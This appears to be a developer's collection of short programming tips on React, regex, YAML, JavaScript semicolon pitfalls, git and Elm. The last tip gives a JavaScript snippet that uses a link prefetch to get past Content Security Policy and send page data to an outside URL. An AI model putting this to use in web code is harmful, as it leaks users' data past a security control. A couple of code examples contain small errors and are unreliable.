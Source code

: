 ```jsx
<WrappedComponent {...this.props}/>
// is equivalent to
React.createElement(WrappedComponent, this.props, null)
```

– https://medium.com/@franleplant/react-higher-order-components-in-depth-cf9032ee6c3e#5247

---

**Regular expression to match a string **not** containing a character sequence: `^((?!WORD_1).)*$`**

– https://stackoverflow.com/questions/406230/regular-expression-to-match-a-line-that-doesnt-contain-a-word

---

**When to use quotes in YAML (why is this so complicated?)**

In general, you don't need quotes. However, you should use them...
* to force a string, e.g. if your key or value is 10 but you want it to return a String and not a Fixnum, write '10' or "10".
* if your value starts with special characters: (`:`, `{`, `}`, `[`, `]`, ,`,`, `&`, `*`, `#`, `|`, `-`, `>`, `=`, `!`, `%`, or `@`)
* if your value ends with special characters: (`:` or `#`)
* "`Yes`" and "`No`" should be enclosed in quotes (single or double) or else they will be interpreted as `TrueClass` and `FalseClass` values

> Single quotes let you put almost any character in your string, and won't try to parse escape codes. `'\n'` would be returned as the string `\n`.

> Double quotes parse escape codes. `"\n"` would be returned as a line feed character.

> Seems to me that the best approach would be to not use quotes unless you have to, and then to use single quotes unless you specifically want to process escape codes. **Yeah, but then I have to consult this list every time!** 😡😡😡

---

**ASI Edge-Cases**

> Function return statement

```js
function a() {
  return
  "Nope, I am sorry!"
}

a() // undefined
```

> Line starting with parenthesis

```js
const b = 1
(function() { console.log('Old school module pattern!') })()

// Uncaught TypeError: 1 is not a function
```

> Line starting with angle brackets

```js
const squared = []
[1, 2].forEach(i => c.push(i * 2))

// Uncaught TypeError: Cannot read property 'map' of undefined
```

– https://maurobringolf.ch/2017/06/automatic-semicolon-insertion-edge-cases-in-javascript/

---

You can use cherry-pick a range of commits!

---

You can rename branches! `git branch -m NEW_BRANCH_NAME`

---

How to deal with conflicts in yarn.lock files:
* git checkout BASE_BRANCH -- yarn.lock
* yarn install

```

You can conditionally add elements/properties to Arrays/Objects:

```js
const cond = false;
const arr = [
  ...(cond ? ['a'] : []),
  'b',
];
```

```js
const cond = false;
const obj = {
  ...(cond ? {a: 1} : {}),
  b: 2,
};
```

---

You can omit properties with pure ES6
```js
const myObject = {
  a: 1,
  b: 2,
  c: 3
};
const { a, ...noA } = myObject;
console.log(noA); // => { b: 2, c: 3 };
```

---

Difference between TODO and FIXME comments
TODO: We should go back and improve this
FIXME: This hack MUST be fixed before going to production

---

JSON is NOT a subset of Javascript!
JSON allows the /u2028 and /u2029 in string literals, Javascript does not

– http://timelessrepo.com/json-isnt-a-javascript-subset

---

When generating scoped class names, using 6 digits is a good rule of thumb. this will give you 0.001% certainty of zero collisions as long as you don’t have more than 1,172 class names.

---

Functional core, imperative shell - A way to design systems which isolates side-effectful code from pure functional code. Impure functions should call pure functions, but not the other way around.
Functional core: handles decisions (lots of paths, little/no dependencies)
Imperative shell: handles dependencies (lots of dependencies, few paths)

---

Stateless function components cannot use pureRender (they are re-rendered whenever their parent changes, regardless of whether or not their props have changed.

Workaround:
```jsx
const pure = func =>
  class PureComponentWrap extends React.PureComponent {
    render() {
      return func(this.props, this.context);
    }
  }

const MyComponent = ({msg}) =>
  <span>{msg}</span>

const MyComponentPure = pure(MyComponent);
```

---

You can simulate objects in Elm!

```elm
import Html exposing (text)

point = \x y -> { multiply = \multiplier -> (x * multiplier, y * multiplier) }

showAge { age, name } = name ++ " is " ++ (toString age) ++ " years old"

z = { age = 21, name = "Shady" }

f = { id = \x -> x }

myPoint = point 1 3
(_, y) = myPoint.multiply 4

main = y |> toString |> text
```

---

You can circumvent CSP in JavaScript for exfiltrating data!

```js
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```

CSP doesn't restrict `prefetch`, `prerender`, `dns-prefetch`, or `preconnect`
https://bugs.chromium.org/p/chromium/issues/detail?id=663620
https://github.com/w3c/webappsec-csp/issues/107